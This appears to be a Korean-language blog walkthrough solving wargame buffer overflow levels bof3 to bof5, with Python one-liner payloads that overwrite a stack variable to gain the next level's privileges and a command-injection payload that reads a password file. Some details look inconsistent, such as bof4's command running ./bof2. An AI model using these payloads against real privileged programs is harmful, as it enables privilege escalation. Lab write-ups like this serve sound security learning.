

# bof3

`bof3`를 실행시키기 전에 `bof3.c` 를 살펴보자.


다음과 같이 되어 잇는데 `gets_s`를 안 썼기 때문에 `Buffer Overflow`에 취약하다. `innocent`의 값을 `KEY` 와 같게 한다면 우리는 `1004`의 권한을 가지게 된다.

다음은 `gets` 에서 `rdi`로 들어가는 주소 값이다.


이 값을 기억해두고


아래의 `if(innocent == KEY)` 를 수행하는 `cmp DWORD PTR[rbp-0x4], 0x61` 에 들어가는 주소값, `$rbp-0x4` 의 값을 기억해 두 주소사이의 거리를 10진수로 나타내면 140이 나온다. 


이 뜻은 `buf`에 140만큼 채운다면 `innocent` 영역에 접근이 가능하다는 뜻.

`python code`를 통해 'x'로 140을 채우고 `innocent`에 `KEY` 값에 해당되는 값을 넣어주는데 나의 기계는 `little endian` 으로 작동하기 때문에 뒷자리, 즉 `00 00 00 61` 를 `61 00 00 00` 순으로 넣어준다. 

```bash
$(python -c "print 'x'*140 + 'a\x00\x00\x00'" ; cat ) | ./bof3
```


그렇게 해주면 다음과 같이 `/bin/sh`이 실행되면서 `cat`이 실행되는데 이때 `bof4`의 권한을 가지고 있기 때문에 실행이 끝나지 않고 `input stream`을 닫지 않는다.

# bof4

`bof4` 문제는 다음과 같다.


딱보면 `bof2` 문제와 `bof3`문제를 합친 것 같다.
`bof2` 에서 `argument`로 `buf`를 채워야 하기 때문에 다음과 같이 하면 `python`을 활용해 140 만큼의 내용을 채워주면 된다.
참고로 bof2의 답은 다음과 같다.

<details>
<summary><b>bof2 답</b></summary>
<div markdown="1">

`strcpy_s`를 안 썼기 때문에 `buffer overflow` 취약점이 있다. 

```bash
$./bof2 `python -c "print 'x'*140 + 'aaaa'"`
```

</div>
</details>

`bof2`의 답의 형식을 따르고 비밀번호만 바뀐것이기 때문에
다음과 같이 명령어를 짜면 bof5의 권한을 얻을 수 있다.

```bash
$./bof2 `python -c "print 'x'*140 + '\x78\x56\x34\x12'"`
```

> 이번에도 little endian 이기 때문에 역순으로 써준 것.




그 결과 다음과 같이 bof5의 권한을 가질 수 있게 된다.

# bof5

`bof5` 또한 위의 문제들을 응용하면 된다. 다른점은, `system`에서 `buffer`에 있는 값을 명령어로 실행 시킨다는 것이다.


위에 예시로 든 `bof3`에서 한 것처럼 `buf`와 `innocent`의 거리를 찾고 그 buf 앞부분을 우리가 원하는 명령어로 채워두기만 하면 되는 것이다. 주의 해야하는 부분은 명령어를 구분할 수 있도록 `;`를 사용하는 것이다. 

>이번에는 `/bin/sh`을 실행시키지 않고 이미 분기를 지날때 bof6의 권한이 있으니 바로 `bof6.pw`의 값을 알아봐도 된다.

명령어로 채우고 남은 부분은 여전히 `innocent`의 값을 조작하기 위해 채워야 한다. 그래서 `dist(innocent - buffer) - strlen(cmd)` 를 한 값만큼 쓰레기 값(`'x'`)로 채워준다.

```
buf     ->   62 61 74 20    bat
             62 6f 66 36    bof6
             2e 70 77 3b    .pw;
             xx xx xx xx 
...
             xx xx xx xx
innocent ->  78 56 34 12
```


답은 다음과 같다.
```bash
$ python -c "print 'bat bof6.pw;' + 'x' *132 + '\x78\x56\x34\x12'" | ./bof5
```


